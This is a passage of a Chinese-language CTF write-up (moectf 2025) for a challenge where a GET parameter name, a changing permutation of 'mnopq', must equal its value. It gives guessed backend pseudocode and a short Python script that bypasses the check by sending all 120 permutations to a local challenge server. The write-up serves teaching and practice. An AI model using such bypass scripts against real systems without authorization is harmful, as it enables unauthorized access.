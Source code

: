 先试一试非 revenge 版我们的 payload，直接拿到答案。

![image.png](./moectf2025wp/image_34.png)

---

## [PHP 伪协议] 11 第十一章 千机变·破妄之眼

> 省流：HDdss 看到了 **GET**  参数名由`m,n,o,p,q`这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道**参数名等于参数值**才能进入。
> 阵中符箓瞬息万变，参数真名每时不同。

想要爆破时刻变化的 1/5! 的参数概率有点低，我们考虑转变方向，想象出题人会怎样写这段检验代码，我们写出以下伪代码：

```jsx
var real_para = get_random_mnopq();
setInterval(()=>{
  //每隔1s刷新一次
  real_para = get_random_mnopq(); //获得随机排列
}, 1000);

// core logic
if($_GET[real_para] && $_GET[real_para]==real_para){
  pass;
}
else{
  error;
}
```

如果后端这样编写检验逻辑，那么不难想到，我们完全可以通过**传入所有可能排列**的方式来绕过这里。

```python
from itertools import permutations
import requests
payload = {}
for p in permutations("mnopq"):
    payload["".join(p)] = "".join(p)

res = requests.get("http://127.0.0.1:38067", params=payload)
print(res.url, res.text)
```
